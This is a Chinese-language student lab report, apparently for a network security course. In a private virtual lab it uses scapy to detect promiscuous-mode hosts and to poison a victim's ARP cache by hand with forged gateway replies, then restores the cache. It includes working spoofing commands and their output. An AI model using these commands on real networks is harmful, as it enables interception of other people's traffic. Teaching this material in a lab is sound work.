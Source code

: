 # 实验四之网络监听

## 网络拓扑

![拓扑](./img/拓扑.png)

- 网关：Debian10-gateway

  ​			172.16.222.1/enp0s10

  ​			08:00:27:8e:47:84

- 攻击者：kali

  ​                172.16.222.148/eth0

  ​                08:00:27:57:42:4a

- 被攻击者：kali-victim

  ​                    172.16.222.144/eth0

  ​                    08:00:27:e8:a3:9a

## 实验环境

- 在攻击者主机上安装scapy：

  ```
  sudo apt update && sudo apt install python3 python3-pip
  
  pip3 install scapy[complete]
  ```

## 实验一 检测局域网中的异常终端

- 

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用:
# 在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。
ip link show eth0 

# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 #qdisc pfifo_fast state UP mode DEFAULT group default qlen #1000
#    link/ether 08:00:27:e8:a3:9a brd ff:ff:ff:ff:ff:ff
```

- ```bash
  # 在攻击者主机上开启 scapy
  # 注意需要sudo权限否则无法使用后面的“promiscping”
  sudo scapy
  ```

- ```bash
  # 在 scapy 的交互式终端输入以下代码回车执行
  # 改函数的作用为查看混杂模式主机而发送ARP请求
  pkt = promiscping("172.16.222.144")
  
  # Begin emission:
  # Finished sending 1 packets.
  
  # Received 0 packets, got 0 answers, remaining 1 packets
  
  # 也就是说，当目标主机的混杂模式关闭时，攻击者使用“promiscping”构造的数据包得不到answer，无法侦测到目标主机。
  ```

- ```bash
  # 回到受害者主机上开启网卡的『混杂模式』
  # 注意上述输出结果里应该没有出现 PROMISC 字符串
  # 手动开启该网卡的「混杂模式」
  
  sudo ip link set eth0 promisc on
  ```

- 此时scapy输出如下图，：![prom](./img/prom.png)

- ```bash
  # 此时会发现输出结果里多出来了 PROMISC 
  # 在被攻击者主机：
  ip link show eth0
  
  # 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
  #    link/ether 08:00:27:e8:a3:9a brd ff:ff:ff:ff:ff:ff
  # 说明混杂模式确实已经打开了
  ```

- 对比前后两次“promiscping”的输出，可知，在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃；而在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。后者就是被动监听。

- ```bash
  # 在受害者主机上
  # 手动关闭该网卡的「混杂模式」
  sudo ip link set eth0 promisc off
  ```

## 实验二 手工单步“毒化”目标主机的 ARP 缓存

- 以下代码在攻击者主机上的 `scapy` 交互式终端完成。

  ```bash
  # 获取当前局域网的网关 MAC 地址
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  
  ###[ Ethernet ]### 
    dst= ff:ff:ff:ff:ff:ff
    src= 08:00:27:57:42:4a
    type= ARP
  ###[ ARP ]### 
       hwtype= 0x1
       ptype= IPv4
       hwlen= None
       plen= None
       op= who-has
       hwsrc= 08:00:27:57:42:4a
       psrc= 172.16.222.148
       hwdst= 00:00:00:00:00:00
       pdst= 172.16.222.1
  
  
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  # Begin emission:
  # Finished sending 1 packets.
  # *
  # Received 1 packets, got 1 answers, remaining 0 packets
  
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  
  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 172.16.222.144
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.144", hwdst="08:00:27:57:42:4a")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  # .
  # Sent 1 packets.
  ```

- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址:

  ```
  172.16.222.1 dev eth0 lladdr 08:00:27:8e:47:84 STALE
  172.16.222.148 dev eth0 lladdr 08:00:27:57:42:4a STALE
  ```

  完全得不到想要的结果，网关和攻击者主机所以对应的MAC地址都是正确的。

- 搜索资料以后，将上面发送报文的sendp函数改为send函数，得到下图，说明arp投毒成功：

  ![send](./img/send.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令。

- ```python
  # 恢复受害者主机的 ARP 缓存记录
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:8e:47:84", pdst="172.16.222.144", hwdst="08:00:27:e8:a3:9a")
  send(restorepkt1, count=100, inter=0.2)
  ```

- 此时在受害者主机上准备“刷新”网关 ARP 记录。

- ```bash
  ## 在受害者主机上尝试 ping 网关
  ping 172.16.222.1
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  
  ip neigh
  # 172.16.222.1 dev eth0 lladdr 08:00:27:8e:47:84 REACHABLE
  # 172.16.222.148 dev eth0 lladdr 08:00:27:57:42:4a STALE
  ```

## 参考资料

- [课本](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

- [send与sendp--scapy官方文档](https://scapy.readthedocs.io/en/latest/usage.html)

  